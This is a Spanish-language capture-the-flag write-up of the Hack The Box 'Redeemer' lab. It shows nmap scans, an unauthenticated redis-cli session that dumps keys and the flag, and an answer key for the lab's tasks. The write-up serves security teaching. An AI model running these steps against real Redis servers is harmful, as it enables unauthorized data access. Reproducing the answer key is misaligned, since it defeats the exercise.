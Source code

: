 ```yaml
---
title: Hack The Box - Starting Point - Tier 0 - Redeemer Writeup
date: 2022-08-09 09:30:00 +0800
categories: ["Hack The Box"]
tags: [htb, writeups]     # TAG names should always be lowercase
---
```


Con este post finalizamos la serie **Tier 0** del **Starting Point** de [HTB](https://app.hackthebox.com/starting-point) que iniciamos [aquí]({% post_url 2022-08-09-htb-writeup-tier0-meow %}).

## Redeemer

El primer paso será iniciar la máquina (para lo que previamente tendremos que tener establecida nuestra conexión VPN)

![](/assets/posts/20220809/img05.png)

Copiamos la IP del equipo remoto, en mi caso *10.129.213.71*, y lanzamos un **nmap**.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/HTB/Tier0]
└─$ nmap -A 10.129.213.71 -oN nmap_output
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-09 12:46 CEST
Nmap scan report for 10.129.213.71
Host is up (0.12s latency).
All 1000 scanned ports on 10.129.213.71 are in ignored states.
Not shown: 1000 closed tcp ports (conn-refused)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2.81 seconds
```

Significado de las flags:

* `-A`&nbsp;: escaneo completo (aka agresivo) que ejecuta OS detection, version detection, script scanning y traceroute todo del tirón.
* `-oN`&nbsp;: imprime la salida en un fichero de texto con el nombre *nmap_output*

Ups !! ... nobody listen :(

Vamos a por todos los puertos utilizando la flag ```-p-```&nbsp;, no solo los 1000 de ```-A```&nbsp;.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/HTB/Tier0]
└─$ nmap -A -p- 10.129.213.71 -oN nmap_output
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-09 12:48 CEST
Nmap scan report for 10.129.213.71
Host is up (0.075s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.7

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.85 seconds
```

Ahora si. Tenemos el puerto *6379/tcp* con el servicio *redis* escuchando. Para los que no sepáis qué es **Redis** podéis informaros [aquí](https://redis.io/).

Utilizamos **redis-cli** para conectarnos con el comando ```-h```&nbsp; para indicarle el host.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/HTB/Tier0]
└─$ redis-cli -h 10.129.213.71
10.129.213.71:6379> 
```

Ejecutamos *info*

```console
[...]
10.129.213.71:6379> info
# Server
redis_version:5.0.7
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:66bd629f924ac924
redis_mode:standalone
os:Linux 5.4.0-77-generic x86_64
[...]
10.129.213.71:6379>
```

Lanzamos un *select*, le pedimos todas las *keys* y volcamos con *get* la que nos interesa. Para mas info sobre estos comandos:

* [SELECT index](https://redis.io/commands/select/)
* [KEYS pattern](https://redis.io/commands/keys/)
* [GET key](https://redis.io/commands/get/)

```console
[...]
10.129.213.71:6379> select 0
OK
10.129.213.71:6379> keys *
1) "numb"
2) "flag"
3) "stor"
4) "temp"
10.129.213.71:6379> get flag
"xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx"
10.129.213.71:6379>
```

Con esto completamos el **Tier 0** y se nos habilita el botón para pasar al siguiente nivel, el **Tier 1**.

Enhorabuena a los que habéis llegado hasta aquí.

## Respuestas:

* <strong>Task 1</strong>: 6379
* <strong>Task 2</strong>: redis
* <strong>Task 3</strong>: In-memory Database
* <strong>Task 4</strong>: redis-cli
* <strong>Task 5</strong>: -h
* <strong>Task 6</strong>: info
* <strong>Task 7</strong>: 5.0.7
* <strong>Task 8</strong>: select
* <strong>Task 9</strong>: 4
* <strong>Task 10</strong>: keys *